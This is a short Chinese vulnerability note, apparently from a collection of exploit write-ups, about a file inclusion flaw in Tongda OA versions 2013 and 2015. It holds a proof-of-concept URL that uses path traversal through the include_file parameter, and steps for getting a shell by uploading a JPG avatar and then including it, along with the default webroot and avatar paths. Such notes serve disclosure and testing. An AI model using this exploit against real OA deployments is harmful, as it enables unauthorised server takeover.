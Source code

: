 ```yaml
---
title: "通达oa 文件包含漏洞"
id: zhfly3336
---
```


# 通达oa 文件包含漏洞

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

poc

```
http://0-sec.org/inc/menu_left.php?GLOBALS[MENU_LEFT][A][module][1]=a&include_file=../inc/js/menu_left.js 
```

通常情况下，在控制⾯板中上传⼀个jpg头像，然后利用该⻚面的⽂件包含getshell。通达OA网站的根⽬录 一般在D:\MYOA\webroot中,头像附件一般在D:\MYOA\webroot\attachment\avatar\XXX.jpg

![image](../img/6d9d94530ca50a162c30631ae6591887.png)